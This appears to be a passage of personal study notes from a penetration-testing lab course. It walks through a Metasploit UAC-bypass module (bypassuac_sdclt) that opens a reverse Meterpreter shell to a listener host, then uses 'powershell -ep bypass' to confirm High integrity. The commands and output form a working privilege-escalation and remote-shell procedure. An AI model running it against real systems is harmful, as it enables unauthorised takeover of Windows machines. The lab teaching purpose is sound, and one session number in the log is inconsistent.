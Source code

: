 ```
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
...

msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 9
SESSION => 32
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 192.168.119.4
LHOST => 192.168.119.4
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.119.4:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[!] This exploit requires manual cleanup of 'C:\Users\offsec\AppData\Local\Temp\KzjRPQbrhdj.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (200774 bytes) to 192.168.50.223
[*] Meterpreter session 10 opened (192.168.119.4:4444 -> 192.168.50.223:49740) at 2022-08-04 09:03:54 -0400
[*] Registry Changes Removed

meterpreter > 
```
+ Above shows that our UAC bypass post-exploitation module created a new Meterpreter session for us

Can check the integrity level of the process as we did before:
```
meterpreter > shell
Process 2328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
High
```
+ Above shows that the process our payload runs in has the integrity level _High_ and therefore we have successfully bypassed UAC

Besides being able to background an active session and execute modules through it, we can also load extensions directly inside the active session with the **load** command
